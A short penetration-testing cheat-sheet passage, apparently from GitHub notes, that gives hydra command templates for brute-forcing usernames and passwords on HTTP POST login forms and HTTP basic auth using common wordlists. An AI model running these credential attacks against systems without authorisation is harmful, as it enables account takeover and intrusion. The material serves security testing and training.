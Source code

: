 ## Brute-forcing credentials
- Brute-force post form username:
```bash
hydra -V -t 64 -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p test -s <port> <ip_or_domain> http-post-form "/<path>:username=^USER^&password=^PASS^:<error_phrase>" # Important: do not put '/' after the <path>
```
- Brute-force post form password:
```bash
hydra -V -t 64 -l <username> -P /usr/share/wordlists/rockyou.txt -s <port> <ip_or_domain> http-post-form "/<path>:username=^USER^&password=^PASS^:<error_phrase>"
```
- Brute-force basic auth:
```bash
hydra -V -t 64 -l <username> -P /usr/share/wordlists/rockyou.txt -s <port> <ip_or_domain> http-get "/<path>"
```
